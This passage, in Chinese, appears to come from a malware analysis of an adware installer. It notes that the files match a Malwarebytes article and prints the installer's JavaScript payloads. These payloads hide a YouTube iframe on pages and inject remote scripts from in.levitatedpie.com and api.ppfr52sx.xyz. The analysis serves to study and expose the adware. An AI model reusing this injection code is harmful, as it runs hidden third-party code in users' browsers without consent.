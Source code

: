 ```
        return
    if getattr(opts, "ACTION")=="uninst":
        for d in deleters:
            d()
        returnmainfn()
```

其他一些文件与 Malwarebytes 文章一致，如 rules.ini 文件和 settings.ini，安装程序还附带了一些 javascript 文件，这些文件与之前看到的其他一些广告软件 bot 活动有一些有趣的交叉。

```
!function () {
 if(window.location.href.indexOf('www.youtube.com') + 1 && window.top == window) {
  var script_old_new = document.createElement('script');
   script_old_new.src = "https://in.levitatedpie.com/soft_yo.js";
   script_old_new.async = false;
   document.head.appendChild(script_old_new);
 } else {
  if (document.location.href !== "https://www.youtube.com/embed/") {
   if (window.top !== window) return
   var new_yt_generic_div = document.createElement('div');
    new_yt_generic_div.style = 'transform:  scale(0.01, 0.01)';
    new_yt_generic_div.style.position = 'fixed';
    new_yt_generic_div.style.left = '0px';
    new_yt_generic_div.style.top = '0px';
    new_yt_generic_div.style.width = '10px';
    new_yt_generic_div.style.height = '10px';
    new_yt_generic_div.style.opacity = '0.1';
    new_yt_generic_div.style.overflow = 'hidden';
   var frame = document.createElement('iframe');
    frame.src = 'https://www.youtube.com/embed/';
    frame.style.top= '0px';
    frame.style.width = '730px';
    frame.style.height = '490px';
    new_yt_generic_div.appendChild(frame);
    document.body.appendChild(new_yt_generic_div);
  }if (document.location.href === "https://www.youtube.com/embed/") {
   var script_old_new = document.createElement('script');
   script_old_new.src = "https://in.levitatedpie.com/soft_embed.js";
   script_old_new.async = false;
   document.head.appendChild(script_old_new);
  }
 }
}();
```

也是一个将加载更多脚本的脚本:

```
if (document.documentElement.hasAttribute('new-advpp')) {
            return;
        }
        document.documentElement.setAttribute('new-advpp', 'yes');window['advppUserId'] = window.O7JFWNKS2FkEhGn3dFE;var n = document.createElement('script');
        n.src = '//api.ppfr52sx.xyz/common/module.js?streamId=TnpNPQ==';
        document.body.appendChild(n);
```
